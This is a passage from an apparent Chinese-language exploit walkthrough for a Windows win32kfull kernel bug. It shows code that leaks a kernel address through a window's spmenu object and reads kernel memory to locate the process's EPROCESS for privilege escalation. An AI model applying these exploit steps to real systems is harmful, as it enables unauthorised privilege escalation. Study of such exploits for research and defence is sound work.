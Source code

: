 ```
        << "ReadKernelMemory ululOutVal1: "
        << std::hex << ululOutVal1
        << " ululOutVal2: "
        << std::hex << ululOutVal2 << std::endl;*/
}

```

#### 4. 获取内核泄露地址：

目前我们可以操作任意内核内存读写，但只能搞搞蓝屏，所有还需要一个内核地址泄露漏洞。

经过分析，窗口中菜单 spmenu 对象包含了内核结构地址。

1.  ##### Win32kfull!xxxSetWindowData 分析：
    
    ##### ![](https://bbs.pediy.com/upload/attach/202103/17853_DAUXA8U8R23Z246.jpg)
    

*   **第 110 行代码可以看出参数 idObject 需要传入一个 - 12。**
    
*   **第 112 代码处对 tagWnd->Style 做了判断包含 WS_CHILD。**
    
*   **第 114 代码处对读取窗口 tagWnd->spmenu 对象。**
    
*   **第 116 代码处对修改窗口 tagWnd->spmenu 对象。**
    

我们需要构造符合上面条件的代码。

```
ULONGLONG ululStyle = *(ULONGLONG*)((PBYTE)g_pWnd[1] + g_dwExStyle_offset);
ululStyle |= 0x4000000000000000L;//WS_CHILD
SetWindowLongPtr(g_hWnd[0], dwpWnd0_to_pWnd1_kernel_heap_offset + g_dwExStyle_offset, ululStyle);  //Modify add style WS_CHILD
 
ULONG_PTR pSPMenu = SetWindowLongPtr(g_hWnd[1], GWLP_ID, (LONG_PTR)g_pMyMenu); //Return leak kernel address and set fake spmenu memory
//pSPMenu leak kernel address, good!!!

```

#### 5. 提升进程权限：

##### 1. 获取我的进程内核 EPROCESS

根据 @6.4 提到的 pSPMenu 对象泄露的内核地址，我们可以从中一步步定位到我的 EProcess。

```
ReadKernelMemoryQQWORD(pSPMenu + 0x18, ululValue1, ululValue2);
ReadKernelMemoryQQWORD(ululValue1 + 0x100, ululValue1, ululValue2);
ReadKernelMemoryQQWORD(ululValue1, ululValue1, ululValue2);
 
ULONG_PTR pMyEProcess = ululValue1;

```
